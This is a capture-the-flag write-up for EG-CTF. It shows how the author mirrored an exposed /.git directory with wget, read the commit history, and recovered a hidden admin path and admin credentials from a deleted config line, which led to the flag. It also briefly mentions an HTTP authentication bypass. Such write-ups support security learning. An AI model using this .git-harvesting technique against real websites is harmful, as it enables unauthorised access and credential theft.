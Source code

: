 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/
root@cloudshell: ls
172.105.76.128  
root@cloudshell: cd 172.105.76.128/
root@cloudshell:~/172.105.76.128$ ls -a
.  ..  .git
root@cloudshell:~/172.105.76.128$ cd .git/
root@cloudshell:~/172.105.76.128/.git$ ls
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs  refs
// let's check the commits
root@cloudshell:~/172.105.76.128/.git$ git reflog
2e3e1a8 HEAD@{0}: commit: Refining
89329fa HEAD@{1}: commit: NewFeature
dfecece HEAD@{2}: commit: Addinfo
b032cf8 HEAD@{3}: commit: Disable
5b9e491 HEAD@{4}: commit: DelCr
457168f HEAD@{5}: commit: AddUsetting
b55d897 HEAD@{6}: commit: editconf
70ae358 HEAD@{7}: commit (initial): initials
// i have check this commits one by one and i found 
root@cloudshell:~/172.105.76.128/.git$git show 2e3e1a8
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:18:26 2019 +0100

    Refining

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 3d7f801..706d93b 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -420,15 +420,6 @@ $CONFIG = array(
 'overwriteprotocol' => '',

 /**
- * Override webroot
- * ownCloud attempts to detect the webroot for generating URLs automatically.
- * For example, if `www.example.com/owncloud` is the URL pointing to the
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs.
- */
-'overwritewebroot' => '',
-
-/
   Override condition
   This option allows you to define a manual override condition as a regular
   expression for the remote IP address. The keys `overwritewebroot`,
// this show us the path of admin log in is /S3cR3tPaTh/
root@cloudshell:~/172.105.76.128/.git$git show 5b9e491
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100

    DelCr

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 46ed4f3..72e9842 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -194,7 +194,7 @@ $CONFIG = array(
 'knowledgebaseenabled' => true,

 /**
- * Enables or disables avatars or user profile photos
+ /* Enables or disables avatars or user profile photos
  * `true` enables avatars, or user profile photos, `false` disables them.
  * These appear on the User page, on user's Personal pages and are used by some apps
  * (contacts, mail, etc).
@@ -469,15 +469,7 @@ $CONFIG = array(



-
- Admin Credentials
-
-'Admin_Login' => 'Administrator'
-'Admin_Password' => 'FN3ym@bZNaF&'

/////////////////////////////////////////////////////////////////
admin = Administrator
password = FN3ym@bZNaF&
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0}
sorry if something it's not clear
//////////////////////////////////////////////////////////////////
